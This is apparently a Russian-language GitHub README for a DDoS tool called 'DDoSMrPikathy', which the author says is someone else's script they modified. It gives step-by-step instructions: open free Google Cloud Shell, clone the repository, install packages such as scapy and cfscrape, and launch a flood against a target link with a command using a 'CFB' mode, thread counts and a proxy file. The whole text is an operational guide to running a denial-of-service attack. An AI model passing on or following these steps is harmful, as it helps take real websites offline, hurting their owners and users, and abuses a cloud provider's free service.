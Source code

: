 # DDoSMrPikathy
Данный скрипт не мой но он мной изменен
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL
- https://shell.cloud.google.com
Написать следующие команды:

- git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install icmplib requests pysocks cfscrape scapy
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000
